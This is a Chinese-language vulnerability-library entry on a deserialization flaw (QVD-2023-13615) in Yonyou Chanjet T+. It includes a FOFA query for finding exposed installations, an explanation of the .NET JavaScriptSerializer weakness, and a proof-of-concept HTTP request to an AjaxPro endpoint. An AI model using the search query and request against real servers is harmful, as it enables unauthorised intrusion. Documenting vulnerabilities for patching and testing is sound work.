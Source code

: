 ## 这里就是漏洞库了

### 用友畅捷通T
- fofa语法：`app="畅捷通-TPlus"`

#### 畅捷通T+ 反序列化漏洞（QVD-2023-13615）

该漏洞属于.net反序列化场景中的 JavaScriptSerializer反序列化；

简介：在.NET处理 Ajax应用的时候，通常序列化功能由JavaSerializer类提供，它是.NET2.0之后内部实现的序列化功能的类，位于命名空间System.Web..Serialization、通过System.Web.Extensions引用，让开发者轻松实现.Net中所有类型和Json数据之间的转换，但在某些场景下开发者使用Deserialize 或DeserializeObject方法处理不安全的Json数据时会造成反序列化攻击从而实现远程RCE漏洞。

- POC
    ```
    POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
    Host: your-ip
    X-Ajaxpro-Method: GetStoreWarehouseByStore
    
    {
    "storeID":{}
    }
    ```

- PS:`X-Ajaxpro-Method`：用于指定在Ajax请求中要调用的服务器端方法的名称

![Alt text]($withBase('/img/QVD-2023-13615.png'))

- [相关链接](https://blog.csdn.net/qq_41904294/article/details/131350965)